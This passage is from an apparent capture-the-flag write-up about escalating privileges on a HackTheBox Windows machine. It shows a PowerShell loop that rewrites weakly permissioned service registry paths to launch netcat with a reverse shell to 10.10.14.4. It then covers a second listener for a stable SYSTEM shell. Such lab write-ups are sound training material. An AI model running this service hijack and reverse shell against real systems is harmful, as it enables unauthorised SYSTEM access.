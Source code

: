 For some reason, the first couple of these I tried didn’t work. From here, I
just decided to try them all. Here’s the expanded code:

    
    
    foreach ($service in $services) { 
      $sddl = (cmd /c sc sdshow $service)[1]; 
      $reg = gp -path hklm:\system\currentcontrolset\services\$service; 
      if ($sddl -match "RP[A-Z]*?;;;AU" -and $reg.ObjectName -eq "LocalSystem") { 
        write-host "Trying to hijack $service"; 
        $old_path = (get-itemproperty HKLM:\system\currentcontrolset\services\wuauserv).ImagePath; 
        set-itemproperty -erroraction silentlycontinue -path HKLM:\system\currentcontrolset\services\$service -name imagepath -value "\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.4 443"; 
        start-service $service -erroraction silentlycontinue; 
        set-itemproperty -path HKLM:\system\currentcontrolset\services\$service -name imagepath -value $old_path 
      }
    }
    

It starts just like the loop above, but when the conditions match, instead of
writing the service name, it writes a message, then gets the old value for the
service binary. Then it sets that path to `nc.exe` connecting back to me. It
then starts the service, and the puts the original bin path back.

When I run this, when it gets to `seclogon`, I get a shell:

[![screenshot of shell coming
in](https://0xdfimages.gitlab.io/img/image-20200423170843330.png)_Click for
full size
image_](https://0xdfimages.gitlab.io/img/image-20200423170843330.png)

I don’t know why the others don’t work (please leave a comment if you do). I
also can’t explain why I get an error trying to write to `RasMan`. But, I have
a shell as SYSTEM. If I break out of the shell and restart the listener, it
also works for `wuauserv`.

### Stable Shell

When starting `nc.exe` as a service, it will die after a minute or so. To keep
a stable shell, I just started a second listener on 444. When the first one
connected, I just ran `nc.exe` from it, and that new process connects back as
SYSTEM and will live past the first minute.

![image-20200423171258354](https://0xdfimages.gitlab.io/img/image-20200423171258354.png)

From there, I’ll grab `root.txt`:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    8f8613f5************************
    

[](/2020/04/25/htb-control.html)


